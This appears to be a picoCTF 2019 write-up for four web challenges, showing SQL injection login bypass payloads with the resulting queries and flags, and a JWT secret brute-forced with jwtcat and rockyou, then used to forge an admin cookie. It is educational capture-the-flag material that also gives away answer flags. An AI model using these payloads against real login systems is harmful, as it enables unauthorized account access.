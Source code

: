 
<h1 align="center">Web Exploitation</h1>


<h3>Irish-Name-Repo 1 - Points: 300</h3>
There is a website running at https://2019shell1.picoctf.com/problem/4162/ (link) or http://2019shell1.picoctf.com:4162. Do you think you can log us in? Try to see if you can login!

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

Response:
username: ' or 1337=1337 --
password: ' or 1337=1337 --
SQL query: SELECT * FROM users WHERE name='' or 1337=1337 --' AND password='' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{s0m3_SQL_96ab211c}

Flag: picoCTF{s0m3_SQL_96ab211c}
```


<h3>Irish-Name-Repo 2 - Points: 350</h3>
There is a website running at https://2019shell1.picoctf.com/problem/14912/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:14912.

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

SQLi detected.

Username ===> admin' and 1337=1337 --
Password ===> admin' and 1337=1337 --

Response:
username: admin' and 1337=1337 --
password: admin' and 1337=1337 --
SQL query: SELECT * FROM users WHERE name='admin' and 1337=1337 --' AND password='admin' and 1337=1337 --'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_752d1173}

Flag: picoCTF{m0R3_SQL_plz_752d1173}
```


<h3>Irish-Name-Repo 3 - Points: 400</h3>
There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!

<p align="center"><img src="../Files/web3.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE
And caesar code for decrypt and pass !!!

Password ===> ' be 1337=1337 --

Response:
password: ' be 1337=1337 --
SQL query: SELECT * FROM admin where password = '' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}

Flag: picoCTF{3v3n_m0r3_SQL_ef7eac2f}
```


<h3>JaWT Scratchpad - Points: 400</h3>
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/45158/ or http://2019shell1.picoctf.com:45158

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
I am registered as john.
My cookie is:
jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

<p align="center"><img src="../Files/j1.png"></img></p>

``` shell
I use jwtcat for crack secret key.

root@Bl4st3r:/media/sf_D_DRIVE/picoctf19/web/jwtcat# python3 jwtcat.py -t "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" -w "/media/sf_D_DRIVE/WORDLISTS/rockyou.txt"
[INFO] JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
[INFO] Wordlist: /media/sf_D_DRIVE/WORDLISTS/rockyou.txt
[INFO] Starting brute-force attacks
jwtcat.py:110: DeprecationWarning: The 'warn' method is deprecated, use 'warning' instead
  logger.warn("Pour yourself some coffee, this might take a while..." )
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: ilovepico
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 675.0711274147034 sec

And on https://jwt.io/ 
I modified my cookie for admin user and with key ilovepico.
```

<p align="center"><img src="../Files/j2.png"></img></p>

``` shell
Modify the cookie with cookie editor and reload the page.
Flag: picoCTF{}
```

<p align="center"><img src="../Files/JaWT.png"></img></p>

``` shell
Flag: picoCTF{jawt_was_just_what_you_thought_d571d8aa3163f61c144f6d505ef2919b}
```

<p align="left"><a href="https://github.com/Ne0Lux-C1Ph3r/WRITE-UP/blob/master/picoCTF2019/index.md">Return to the main menu</a></p>

